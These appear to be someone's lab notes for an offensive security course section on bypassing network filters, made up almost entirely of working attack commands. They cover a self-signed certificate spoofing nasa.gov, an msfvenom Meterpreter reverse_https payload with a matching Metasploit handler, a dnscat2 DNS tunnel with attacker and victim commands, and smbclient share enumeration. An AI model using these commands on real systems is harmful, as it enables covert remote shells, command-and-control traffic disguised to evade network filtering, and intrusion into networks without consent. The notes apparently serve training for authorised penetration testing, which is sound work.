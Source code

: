 # Bypassing Network Filters
## 9.3.1.1 Exercises
```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -subj "/C=UK/ST=London/L=London/O=Development/CN=nasa.gov" -keyout nasa.gov.key -out nasa.gov.crt
cat nasa.gov.key nasa.gov.crt > nasa.gov.pem
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.70 LPORT=443 PayloadUUIDTracking=true PayloadUUIDName=Whoamishell HandlerSSLCert=/home/osep/nasa.gov.pem StagerVerifySSLCert=true -f raw -o /var/www/html/shell
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 192.168.49.70;set LPORT 443;set HandlerSSLCert /home/osep/nasa.gov.pem;set StagerVerifySSLCert true;exploit -j"
```
## dnscat
[Using SMBClient to Enumerate Shares (bestestredteam.com)](https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/)
```

Attacker:dnscat2-server tunnel.com 
Victim:dnscat2-v0.07-client-win32.exe --dns server=192.168.49.70,port=53 --secret=
```
### pratice
#### LIST SMB share
```
smbclient  -L \\\\127.0.0.1 -U offsec -p444 
```
#### Connect smb share
```
smbclient  \\\\127.0.0.1\\Users -U offsec -p 444

```
